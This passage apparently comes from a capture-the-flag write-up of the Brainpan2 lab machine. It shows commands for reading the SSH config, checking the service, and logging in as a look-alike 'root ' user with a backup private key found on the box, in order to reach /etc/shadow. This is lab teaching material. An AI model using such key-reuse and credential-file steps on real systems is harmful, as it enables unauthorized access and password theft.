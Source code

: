 We can see that this user can login as `root ` (with a space) through SSH.
From the old `root` console, let's check the SSH config.

{% highlight bash %}
$ cat /etc/ssh/sshd_config
cat sshd_config
# Package generated configuration file
# See the sshd_config(5) manpage for details

# What ports, IPs and protocols we listen for
Port 2222
# Use these options to restrict which interfaces/protocols sshd will bind to
#ListenAddress ::
#ListenAddress 0.0.0.0
ListenAddress 127.0.1.1
Protocol 2
# ...
{% endhighlight %}

Is the service running?

{% highlight bash %}
$ service ssh status
service ssh status
sshd is running.
{% endhighlight %}

Perfect, back to `puck`'s console.

{% highlight bash %}
$ ssh -l "root " brainpan2 -p 2222 -i /home/puck/.backup/.ssh/id_rsa
ssh -l "root " brainpan2 -p 2222 -i /home/puck/.backup/.ssh/id_rsa
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  7 11:00:06 2013

root @brainpan2:~# 
{% endhighlight %}

Again, my class challenge was to get the `/etc/shadow` file.
